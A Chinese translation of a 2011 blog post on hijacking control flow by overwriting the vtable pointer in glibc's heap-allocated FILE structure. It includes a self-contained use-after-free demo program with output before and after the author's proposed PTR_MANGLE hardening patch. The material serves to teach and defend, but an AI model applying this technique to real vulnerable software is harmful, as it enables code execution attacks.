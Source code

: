 > 原文链接: https://www.anquanke.com//post/id/84874 


# 【技术分享】利用FILE结构执行任意代码


                                阅读量   
                                **102129**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：outflux
                                <br>原文地址：[https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)

译文仅供参考，具体内容表达以及含义原文为准



**翻译：**[**Ox9A82**](http://bobao.360.cn/member/contribute?uid=2676915949)

**稿费：50RMB（不服你也来投稿啊！）**

**投稿方式：发送邮件至linwei#360.cn，或登陆<strong><strong><strong><strong><strong>[<strong>网页版**](http://bobao.360.cn/contribute/index)</strong></strong></strong></strong></strong></strong>**在线投稿**



**简介**

当我们想要攻击一个进程时，一个很有趣的目标就是堆上的FILE结构，FILE结构被glibc中的输入输出流函数（fopen()，fread()，fclose()等）所使用。 大多数FILE的结构（在内部是_IO_FILE结构）是指向用于各种流和标志的内存缓冲区的指针。有趣的是，这个指针并不是完整的结构。当一个新的FILE结构被成功分配并且其指针从fopen()函数返回时，glibc实际上分配了一个名为_IO_FILE_plus的内部结构，它包含了_IO_FILE结构和一个指向_IO_jump_t结构的指针，而这个结构又包含了附加到FILE的所有函数的指针列表。这就是它的vtable，其作用和结构就像C++的虚函数表一样，任何一个与FILE有关的流函数调用都会使用这张表。所以在堆上，我们有如下图的结构：

[![](https://p1.ssl.qhimg.com/t011058c39d1ce7ce94.png)](https://p1.ssl.qhimg.com/t011058c39d1ce7ce94.png)

对于use-after-free漏洞，堆溢出或者任意地址写漏洞，这个vtable指针是一个有趣的目标，很像可以在setjmp(),longjmp(),atexit()中找到的指针，可以被用来控制程序的执行流程。前一段时间，glibc引入了PTR_MANGLE/PTR_DEMANGLE来保护后面提到的这些函数，但是直到现在为止还没有以同样的方式保护FILE结构。

我希望能够改变这个状况，所以就引入了一个使用PTR_MANGLE的补丁来保护vtable指针。希望我没有忽略一些重要的东西，因为我真的很想看到这个补丁可以起到作用。其实，对FILE结构的利用要比对setjmp()和atexit()函数的利用更为常见 🙂

<br>

**演示demo**

下面是一个在use-after-free漏洞中利用的演示demo



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
void pwn(void)
`{`
    printf("Dave, my mind is going.n");
    fflush(stdout);
`}`
void * funcs[] = `{`
    NULL, // "extra word"
    NULL, // DUMMY
    exit, // finish
    NULL, // overflow
    NULL, // underflow
    NULL, // uflow
    NULL, // pbackfail
    NULL, // xsputn
    NULL, // xsgetn
    NULL, // seekoff
    NULL, // seekpos
    NULL, // setbuf
    NULL, // sync
    NULL, // doallocate
    NULL, // read
    NULL, // write
    NULL, // seek
    pwn,  // close
    NULL, // stat
    NULL, // showmanyc
    NULL, // imbue
`}`;
int main(int argc, char * argv[])
`{`   
    FILE *fp;
    unsigned char *str;
    printf("sizeof(FILE): 0x%xn", sizeof(FILE));
    /* Allocate and free enough for a FILE plus a pointer. */
    str = malloc(sizeof(FILE) + sizeof(void *));
    printf("freeing %pn", str);
    free(str);
    /* Open a file, observe it ended up at previous location. */
    if (!(fp = fopen("/dev/null", "r"))) `{`
        perror("fopen");
        return 1;
    `}`
    printf("FILE got %pn", fp);
    printf("_IO_jump_t @ %p is 0x%08lxn",
           str + sizeof(FILE), *(unsigned long*)(str + sizeof(FILE)));
    /* Overwrite vtable pointer. */
    *(unsigned long*)(str + sizeof(FILE)) = (unsigned long)funcs;
    printf("_IO_jump_t @ %p now 0x%08lxn",
           str + sizeof(FILE), *(unsigned long*)(str + sizeof(FILE)));
    /* Trigger call to pwn(). */
    fclose(fp);
    return 0;
`}`
```

在打补丁之前：



```
$ ./mini
sizeof(FILE): 0x94
freeing 0x9846008
FILE got 0x9846008
_IO_jump_t @ 0x984609c is 0xf7796aa0
_IO_jump_t @ 0x984609c now 0x0804a060
Dave, my mind is going.
```

在打补丁之后：

```
$ ./mini
sizeof(FILE): 0x94
freeing 0x9846008
FILE got 0x9846008
_IO_jump_t @ 0x984609c is 0x3a4125f8
_IO_jump_t @ 0x984609c now 0x0804a060
Segmentation fault
```

<br>

**后记**

一些聪明的读者可能会注意到，这个演示利用了glibc的另一个特性，就是它的malloc系统是不随机的，这允许攻击者确定各种结构在堆中相对于彼此的位置。我也很乐于看到它是固定的，但它需要更多的时间去学习。

[![](https://p3.ssl.qhimg.com/t015757374e79922e63.jpg)](https://p3.ssl.qhimg.com/t015757374e79922e63.jpg)[![](https://p0.ssl.qhimg.com/t0195679a91a7a55700.jpg)](https://p0.ssl.qhimg.com/t0195679a91a7a55700.jpg)
